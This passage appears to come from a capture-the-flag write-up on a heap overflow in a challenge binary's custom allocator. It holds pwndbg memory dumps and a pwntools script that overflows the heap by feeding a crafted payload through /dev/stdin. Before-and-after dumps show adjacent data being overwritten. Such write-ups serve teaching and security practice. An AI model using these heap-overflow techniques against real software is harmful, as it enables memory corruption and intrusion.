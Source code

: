 Earlier, we saw that `size` of a chunk doesn't include its header size. But if
the size of `forest_chunk` was initialized to be `end_of_heap - start_of_heap`
(0x10000), and this doesn't include the header size, then... won't this lead to
a 0x10 overflow? 

Looking at the `load_strings_from_file` function, it allocates a chunk of size
`0x20` for the filename, and another of size `(0x7fff + 1) & 0xfffffff0 =
0x8000` for the file to be read into. Then, it starts to `malloc` more chunks
for the strings read from the file. After registering a user, our `forest_chunk`
is of size `0xbf80`.

```
pwndbg> tel 0x555555554000+0x15070
00:0000│  0x555555569070 —▸ 0x55555555d080 ◂— 0xbf80
01:0008│  0x555555569078 ◂— 0
... ↓     6 skipped
```

So, the amount we need to allocate to just fill up the heap is `0xbf80 - 0x8000
0x10 - 0x20 - 0x10 = 0x3f40`. Since we can allocate up to `0x7ff` chunks of
maximum size `0x100 + 0x10`, we could definitely do this manually using
`create_string`. Or we can save ourselves a lot of time by just setting the file
we read from to be `/dev/stdin`, and feed in the values we want!

```python
p.sendlineafter(b"Choose an option", b"2")
p.sendlineafter(b"Username:", b"samuzora")
p.sendlineafter(b"Password:", b"password")
p.sendlineafter(b"Choose an option", b"1")
p.sendlineafter(b"Username:", b"samuzora")
p.sendlineafter(b"Password:", b"password")

p.sendlineafter(b"Choose an option", b"5")
p.sendlineafter(b"filename:", b"/dev/stdin")

payload = b"a" * 0x3f40
payload = payload[:-1]
p.sendline(payload)
```

Before:

```
pwndbg> x/32gx 0x555555554000+0x15000
0x555555569000: 0x0000000100000000      0x0000000300000002
0x555555569010: 0xffffffff0000003c      0x0000000000000000
0x555555569020: 0x0000000000000000      0x0000000000000000
0x555555569030: 0x0000000000000000      0x0000000000000000
```

After:

```
pwndbg> x/32gx 0x555555554000+0x15000
0x555555569000: 0x6161616161616161      0x0061616161616161
0x555555569010: 0x000000000000003c      0x0000000000000001
0x555555569020: 0x0000555555559070      0x0000000000000000
0x555555569030: 0x0000000000000000      0x0000000000000000
```

